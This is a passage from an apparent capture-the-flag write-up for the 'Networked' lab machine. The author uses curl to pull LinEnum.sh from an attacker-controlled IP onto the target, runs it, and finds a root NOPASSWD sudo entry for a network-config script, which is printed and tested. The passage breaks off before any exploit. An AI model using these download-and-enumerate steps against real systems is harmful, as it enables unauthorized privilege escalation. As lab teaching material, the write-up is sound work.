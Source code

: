 On the `Networked` machine:
{% highlight bash %}
[guly@networked ~]$ cd /tmp
[guly@networked /tmp]$ curl http://10.10.XXX.XXX/LinEnum.sh > LinEnum.sh
curl 10.10.XX.XX/LinEnum.sh > LinEnum.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 45651  100 45651    0     0  41674      0  0:00:01  0:00:01 --:--:-- 41690
{% endhighlight %}

When I ran it, I saw something interesting!
{% highlight bash %}
[guly@networked /tmp]$ chmod 777 LinEnum.sh
[guly@networked /tmp]$ ./LinEnum.sh
...
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh


[+] Possible sudo pwnage!
/usr/local/sbin/changename.sh
{% endhighlight %}

That was easy. This means that we can just `sudo /usr/local/sbin/changename.sh` and be on our jolly way. But here comes the tough part.
{% highlight bash %}
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
{% endhighlight %}

Before we start analysing, lets run it first.
{% highlight bash %}
[guly@networked /tmp]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
test
test
interface PROXY_METHOD:
test
test
interface BROWSER_ONLY:
test
test
interface BOOTPROTO:
test
test
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
